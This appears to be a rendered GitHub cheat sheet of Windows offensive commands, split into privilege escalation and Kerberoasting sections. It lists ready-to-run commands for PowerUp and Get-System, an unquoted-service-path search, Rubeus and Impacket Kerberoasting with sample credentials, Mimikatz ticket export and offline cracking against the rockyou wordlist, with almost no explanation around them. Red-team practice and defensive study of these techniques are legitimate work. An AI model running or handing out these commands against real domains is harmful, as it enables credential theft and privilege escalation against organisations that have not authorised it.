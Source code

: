 Elevation of Privileges
     General

    # PowerShellMafia
    # Use always dev branch others are shit.
    https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
    powershell.exe -c "Import-Module C:\Users\Public\PowerUp.ps1; Invoke-AllChecks"
    powershell.exe -c "Import-Module C:\Users\Public\Get-System.ps1; Get-System"
    # Sherlock
    https://github.com/rasta-mouse/Sherlock
    # Unquoted paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

     Kerberoast

– For kerberos to work, times have to be within 5 minutes between attacker and victim.

    # Rubeus
    .\.rubeus.exe kerberoast /creduser:ecorp\morph3 /credpassword:pass1234
    # List available tickets
    setspn.exe -t evil.corp -q */*
    # List cached tickets
    Invoke-Mimikatz -Command '"kerberos::list"'
    powershell.exe -c "klist"
    powershell.exe -c "Import-Module C:\Users\Public\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::list"'"
    # Request tickets
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"
    # Requesting from outside
    python GetUserSPNs.py -request ECORP/morph3:supersecurepassword@127.0.0.1
    # Export tickets
    powershell.exe -c "Import-Module C:\Users\Public\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat Hashcat"
    Invoke-Mimikatz -Command '"kerberos::list /export"'
    # Crack Tickets
    python tgsrepcrack.py /usr/share/wordlists/rockyou.txt ticket.kirbi
